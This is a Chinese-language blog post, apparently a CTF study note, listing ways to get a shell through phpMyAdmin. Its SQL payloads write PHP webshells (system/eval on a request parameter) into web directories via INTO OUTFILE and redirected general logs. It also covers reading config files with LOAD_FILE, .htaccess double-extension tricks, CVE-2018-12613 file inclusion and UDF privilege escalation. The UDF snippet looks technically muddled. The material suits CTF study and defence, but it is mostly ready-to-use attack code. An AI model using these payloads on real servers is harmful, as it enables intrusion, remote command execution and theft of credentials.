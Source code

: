 ```yaml
---
layout: post
title: phpMyadmin getShell方法
subtitle: phpMyadmin getShell
date: 2025-08-15 18:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: first-level 2, max 4, 1.1., auto
published: false
---
```

## 1. CTF 中 phpMyAdmin getshell 常见套路

Windows 和 Linux 原理基本相同

- [ ] phpmyadmin getshell 方法🛫 2025-08-15 

### 1.1. `SELECT ... INTO OUTFILE` 写 PHP 马

**原理**：MySQL 可以把查询结果直接写到服务器文件系统，如果 Web 目录可写，就能写一段 PHP 代码变成 WebShell。

**条件检查：**

```sql
SHOW VARIABLES LIKE 'secure_file_priv'; 
SHOW GRANTS FOR CURRENT_USER();
```

- `secure_file_priv` 为空或是 Web 根目录。
- 当前用户有 `FILE` 权限。

**利用：**

```sql
select @@basedir;  -- 查找绝对路径
-- linux
SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
-- win
SELECT '<?php eval($_REQUEST["cmd"]);?>' INTO OUTFILE 'c:\phpstudy\www\shell.php';
```

**CTF 变种：**

- 出题人可能会限制 `secure_file_priv`，这时需要找 **符号链接绕过** 或 **mysql 日志写马**
---

### 1.2. 利用 MySQL 日志写 WebShell

**原理**：MySQL 的 general log、slow log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**操作：**

```sql
SET global general_log = 'ON'; 
SET global general_log_file = '/var/www/html/shell.php'; 
SELECT '<?php system($_GET["cmd"]); ?>'; 
SET global general_log = 'OFF';
```

访问 `shell.php` 即可。

---

### 1.3. `LOAD DATA LOCAL INFILE` / `LOAD_FILE` 读取敏感文件

虽然不是直接 getshell，但可以辅助：

`SELECT LOAD_FILE('/var/www/html/config.php');`

可能拿到数据库连接密码，从而用其他方式 getshell。

---

### 1.4. 导入功能绕过上传限制

在 phpMyAdmin 的 “导入” 页面上传 `.php` 文件，出题人可能没有过滤，或者导入路径就是 Web 可访问路径。

- 常见的 CTF trick：导入 `.txt` 文件，但内容是 PHP 代码，然后用双扩展名 `shell.php.txt`，再通过 `.htaccess` 把 `.txt` 解析成 PHP。

---

### 1.5. 创建数据库和表写入 WebShell

```sql
CREATE TABLE test( id text(500) not null);
INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');
SELECT id FROM test INTO OUTFILE 'C:/phpstudy/WWW/1.php';
DROP TABLE IF EXISTS test;
```

---

### 1.6. phpMyAdmin 历史漏洞 getshell

在 CTF 中常用老版本 phpMyAdmin：

- **CVE-2018-12613**：文件包含漏洞，可以通过 `?target=db_sql.php%253f/../../../../.../shell` 来执行任意文件。
- **CVE-2016-5734**：SQL 执行漏洞，配合 OUTFILE 直接 getshell。

---

### 1.7. MySQL UDF 提权

如果 MySQL 用户有 `FILE` 权限且是 root 运行，可以写入 `.so` 动态库到插件目录，创建自定义函数执行系统命令：

```sql
SELECT '<?php code ?>' INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; SELECT sys_eval('id');
```

但 CTF 中较少，因为需要 root 权限。

---

## 2. 📌 CTF 实战思路

1. **先信息收集**
    - phpMyAdmin 版本（右下角 / HTML 注释）。
    - MySQL 权限（`SHOW GRANTS`）。
    - `secure_file_priv` 设置。
    - Web 根路径。
2. **优先尝试 OUTFILE**
    - 如果受限，尝试日志写马。
    - 如果无 FILE 权限，看能否用漏洞 getshell。
3. **配合 Web 功能**
    - `.htaccess` 双扩展解析。
    - 利用已有文件包含漏洞（LFI）加载日志或上传的 PHP。
